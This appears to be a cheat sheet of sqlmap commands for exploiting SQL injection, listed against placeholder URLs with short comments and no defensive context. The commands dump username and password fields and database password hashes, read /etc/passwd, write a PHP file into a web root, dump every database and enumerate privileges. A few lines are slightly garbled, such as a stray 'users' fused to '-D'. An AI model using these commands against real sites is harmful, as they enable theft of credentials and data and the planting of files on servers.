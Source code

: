 # Get the data of the specified field in the specified table in the specified database name 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2

# file-read read web file

Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2

# file-write writes files to the web 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file-dest /var/www/html/xx.php -v 2

#union Query table record

Sqlmap.py -u "http://url/news?id=1" --union-cols 

# injection

# Get the current user name 
Sqlmap.py -u "http://url/news?id=1" --current-user
# Get the current database name
Sqlmap.py -u "http://www.xxoo.com/news?id=1" --current-db 
# listname
Sqlmap.py -u "http://www.xxoo.com/news?id=1" --tables -D "db_name" 
#column field
Sqlmap.py -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 
#Get the field contents
Sqlmap.py -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0
# smart smart level Execution test level
Sqlmap.py -u "http://url/news?id=1" --smart --level 3 --users
# dbms Specify database type
Sqlmap.py -u "http://url/news?id=1" --dbms "Mysql" --users
#column database user
Sqlmap.py -u "http://url/news?id=1" --users


# Access to information

Sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users		# dbms Specify database type
Sqlmap -u "http://url/news?id=1" --users 					#column database user
Sqlmap -u "http://url/news?id=1" --dbs						#column database
Sqlmap -u "http://url/news?id=1" --passwords				#database user password
Sqlmap -u "http://url/news?id=1" --passwords -U root -v 0   #list the password of the specified user database
Sqlmap -u "http://url/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20  #list designation Field, list 20
Sqlmap -u "http://url/news?id=1" --dump-all -v 0 			#List all tables in all databases
Sqlmap -u "http://url/news?id=1" --privileges 				#View Permissions
Sqlmap -u "http://url/news?id=1" --privileges -U root		#View specified user permissions
Sqlmap -u "http://url/news?id=1" --is-dba -v 1 				#is it a database administrator?
Sqlmap -u "http://url/news?id=1" --roles 					#enumrate database user roles